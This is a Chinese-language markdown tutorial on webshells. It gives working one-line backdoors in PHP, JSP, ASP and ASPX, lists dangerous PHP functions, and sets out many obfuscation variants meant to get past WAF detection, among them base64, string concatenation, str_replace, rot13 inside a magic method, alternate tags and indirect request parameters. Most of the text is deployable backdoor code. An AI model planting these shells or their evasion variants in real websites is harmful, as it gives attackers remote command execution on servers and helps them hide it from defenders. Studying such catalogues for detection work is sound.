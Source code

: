 ## WebShell

### 1. 定义

* 以php、jsp、asp、aspx或者cgi等**网页文件形式**存在的一种**命令执行环境**，也叫做**网页后门**

### 2. 常见一句话木马

#### (1). php

```php
<?php eval($_POST['cmd']); ?>
```

#### (2). jsp

```jsp
<% @page language="java" Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

#### (3). asp

```asp
<% eval request("cmd") %>
<% excute request("cmd") %>
<% excute(request("cmd")) %>
<% excuteGlobal request("cmd") %>
```

#### (4). aspx

```asp
1. 
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
2. 
<%@ Page Language="Jscript" validateRequest="false" %><%Response.Write(eval(Request.Item["pass"], "unsafe"));%>
```

### 3. 相关函数

#### (1). 代码执行

> eval()、assert()、preg_replace()、create_function()、asort()、
>
> array_map()、array_filter()、
>
> call_user_func()、call_user_func_array()

#### (2). 命令执行

> system()、exec()、shell_exec()、passthru()、popen()、反引号、
>
> escapeshellarg()、escapeshellcmd()、
>
> proc_close()、proc_open()、
>
> dl()

### 4. 变形方法

#### (1). 关键字查找、替换

* str_replace()

  ```php
  //1. 查找
  <?php
      $a = str_replace("abc","","aabcsabcsabceabcrabct");
      @$a($_REQUEST['cmd']);
  ?>
  ```
  
  ![str_replace1](http://113.45.142.235:9001/laffrex/pictures/str_replace1.png)
  
  ```php
  //2. 替换
  <?php
      $b = "assexx";
      $c = str_replace("xx","rt",$b);
      @[""=>$c($_GET[_])];
  ?>
  ```
  
  ![str_replace2](http://113.45.142.235:9001/laffrex/pictures/str_replace2.png)

#### (2). 编码替换

* 编码替换

```php
<?php
    $a = base64_decode("YXNzZXJ0");
    $a($_REQUEST['cmd']);
?>
```

![base64_decode](http://113.45.142.235:9001/laffrex/pictures/base64_decode.png)

#### (3). 点操作符

```php
<?php
    $a = "as"."se";
    $b = "r"."t";
    $c = $a.$b;
    $c($_REQUEST['cmd']);
?>
```

![点字符连接](http://113.45.142.235:9001/laffrex/pictures/点字符连接.png)

#### (4). 更换操作源

###### ①隐藏assert

```php
<?php
    //？a=assert&cmd=phpinfo();
    $_REQUEST[a]($_REQUEST['cmd']);
?>
```

![更换数据源1](http://113.45.142.235:9001/laffrex/pictures/更换数据源1.png)

###### ②嵌套$_REQUEST

```php
<?php
//?b=cmd&cmd=phpinfo();
@assert($_REQUEST[$_REQUEST['b']]);
?>
```

![更换数据源2](http://113.45.142.235:9001/laffrex/pictures/更换数据源2.png)

#### (5). 替换php标签

```php
<script language="php">
    @assert($_REQUEST['cmd']);
</script>
    
<?=`$_GET["cmd"]`?>
```

![更换php标签](http://113.45.142.235:9001/laffrex/pictures/更换php标签.png)

##### 

#### (6). 字符串组合

```php
<?php
    $str = 'abcsqebrt';
    $a = $str[0].$str[3].$str[3].$str[5].$str[7].$str[8];
    @$a($_REQUEST['cmd']);
    ?>
```

![字符串截取](http://113.45.142.235:9001/laffrex/pictures/字符串截取.png)

#### (7). 自定义

###### ①自定义函数

```php
<?php
function admin($a){
    @eval($a);
}
admin($_REQUEST['admin']);
?>
```

![自定义函数](http://113.45.142.235:9001/laffrex/pictures/自定义函数.png)

###### ②自定义类

```php
<?php
class Webshell{
    function admin($a){
        @eval($a);
    }
}
$web = new Webshell();
$web->admin($_REQUEST['admin']);
?>
```

![自定义类](http://113.45.142.235:9001/laffrex/pictures/自定义类.png)

###### ③魔术方法

* __construct
* __destruct()
* __wakeup()
* __toString()
* ...

```php
//?name=phpinfo();
class Student{
    public $xw = null;
    public $xl = null;
    function __construct(){
        $this->xw = "riny(\$_ERDHRFG['anzr'])";   //对应eval($_REQUEST['name]);,需要对$进行转义
        $this->xl = str_rot13($this->xw);
        @assert($this->xl);
    }
}
new Student();
```

![魔术方法](http://113.45.142.235:9001/laffrex/pictures/魔术方法.png)

###### ④创建匿名方法

```php
<?php
$func1 = create_function('$a,$b','return ($a + $b);');
echo $func1(10,20);
?>
```

![匿名函数](http://113.45.142.235:9001/laffrex/pictures/匿名函数.png)

#### (8). 异或运算

* 通过异或运算ASCII值，来绕过WAF